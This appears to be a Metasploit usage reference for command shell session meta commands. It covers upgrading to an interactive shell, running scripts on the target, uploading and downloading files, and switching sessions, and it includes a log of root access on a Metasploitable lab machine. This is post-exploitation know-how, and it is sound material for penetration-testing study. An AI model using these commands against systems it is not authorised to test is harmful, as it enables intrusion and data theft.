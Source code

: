 # Usage

Search Tag(s): #metasploit-framework #command-and-control #living-off-the-land

## 01 - Help Menu

```
help

Meta shell commands
===================

    Command     Description
    -------     -----------
    help        Help menu
    background  Backgrounds the current shell session
    sessions    Quickly switch to another session
    resource    Run a meta commands script stored in a local file
    shell       Spawn an interactive shell (*NIX Only)
    download    Download files
    upload      Upload files
    source      Run a shell script on remote machine (*NIX Only)
    irb         Open an interactive Ruby shell on the current session
    pry         Open the Pry debugger on the current session
```

## 02 - Interactive Meta Shell

### 2.1 - Help Menu

```
help shell
Usage: shell

Pop up an interactive shell via multiple methods.
An interactive shell means that you can use several useful commands like `passwd`, `su [username]`
There are four implementations of it: 
\t1. using python `pty` module (default choice)
\t2. using `socat` command
\t3. using `script` command
\t4. upload a pty program via reverse shell
```

### 2.2 - Usage

```
[*] Command shell session 1 opened (10.0.2.4:34869 -> 192.168.56.106:6200 ) at 2022-03-29 03:43:52 -0400

shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash
root@metasploitable:/# id
id
uid=0(root) gid=0(root)
root@metasploitable:/#
```

## 03 - Source Script

### 3.1 - Help Menu

```
help source
Usage: source [file] [background]

Execute a local shell script file on remote machine
This meta command will upload the script then execute it on the remote machine

background
`y` represent execute the script in background, `n` represent on foreground
```

### 3.2 - Usage

```
source script.sh <y | n>
```

## 04 - Upload and Download

### 4.1 -  Help Menu

- Upload

```
help upload
Usage: upload [src] [dst]

Uploads load file to the victim machine.
This command does not support to upload a FOLDER yet
```

- Download

```
help download
Usage: download [src] [dst]

Downloads remote files to the local machine.
Only files are supported.
```

### 4.2 - Usage

- Upload

```
upload /path/to/local/file /path/to/remote/file
```

- Download

```
download /path/to/remote/file /path/to/local/file
```

## 05 - Switch Interactive Sessions

### 5.1 - Help Menu

```
help sessions
Usage: sessions <id>

Interact with a different session Id.
This command only accepts one positive numeric argument.
This works the same as calling this from the MSF shell: sessions -i <session id>
```

### 5.2 - Usage

```
sessions <session_id>
```

## 06 - Background Session

`background`

## 07 - Resource Script to Automate Commands

### 7.1 - Help Menu

```
help resource
Usage: resource path1 [path2 ...]

Run the commands stored in the supplied files. (- for stdin, press CTRL+D to end input from stdin)
Resource files may also contain ERB or Ruby code between <ruby></ruby> tags.
```

### 7.2 - Usage

```
resource /path/to/local/resource.rc
```

## 08 - Interactive Ruby Session

TODO: Fill this info

### 8.1 - Help Menu

```
help irb
```

### 8.2 - Usage

```
irb
```

## 09 - Debug Current Session

### 9.1 - Help Menu

```
help pry
```

### 9.2 - Usage

```
pry
```